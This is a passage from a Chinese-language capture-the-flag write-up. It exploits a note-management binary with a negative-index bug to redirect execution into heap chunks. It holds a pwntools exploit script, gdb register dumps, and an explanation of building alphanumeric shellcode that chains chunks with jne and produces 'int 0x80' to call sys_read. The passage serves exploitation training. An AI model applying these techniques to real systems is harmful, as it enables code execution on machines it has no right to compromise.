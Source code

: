 ```python
################################################

# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\0'))
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
leak    = lambda name,addr :log.success('{} : {:#x}'.format(name, addr))

# base addr
gdb_text_base = int(os.popen("pmap {}".format(io.pid)).readlines()[1][4:16], 16)
gdb_libc_base = int(os.popen("pmap {}| grep libc".format(io.pid)).readlines()[0][4:16], 16)

# debug function
def debug(addr=0,cmd='',PIE=True):
    if PIE: addr = gdb_text_base + addr
    log.warn("breakpoint_addr --> 0x%x" % addr)
    gdb.attach(io,"b *{}\nc\n".format(hex(addr))+cmd) 

add = lambda index,name : (sla("choice :","1"),sla("Index :",str(index)),sla("Name :",name))
show = lambda index : (sla("choice :","2"),sla("Index :",str(index)))
delate = lambda index : (sla("choice :","3"),sla("Index :",str(index)))

add(-27,"aaaaaaaa")
gdb.attach(io,"b*0x080488ea\nc\n")
delate(1)

io.interactive()
```

步入即可看到执行shellcode时的寄存器值

```asm
 EAX  0x0
 EBX  0x0
 ECX  0x0
 EDX  0x0
 EDI  0xf7f23000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x2d /* 0x1b2db0 */
 ESI  0xf7f23000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x2d /* 0x1b2db0 */
 EBP  0xffd62758 —▸ 0xffd62768 ◂— 0x0
 ESP  0xffd6272c —▸ 0x80488ef (del_note+81) ◂— add    esp, 0x10
 EIP  0x9df5008 ◂— 'aaaaaaaa'
```

接下来就可以开始shellcode的构造了，需要注意的是多个块之间的跳转，使用jne指令时，我们还需要考虑好两段shellcode中间间隔堆块的数量以便操作数在合法范围内。然后通过减法+异或构造出`int 0x80`指令。

同时还需要注意的是sys_read的参数传递（参考的网上WP...），我们delete的时候需要注意利用这里的传入参数来构造sys_read的参数

成功执行出sys_read：

```asm
 ► 0x9727109    int    0x80 <SYS_read>
        fd: 0x0
        buf: 0x97270c8 ◂— 'Xj3X40u9'
        nbytes: 0x7a
   0x972710b    add    byte ptr [eax], al
```
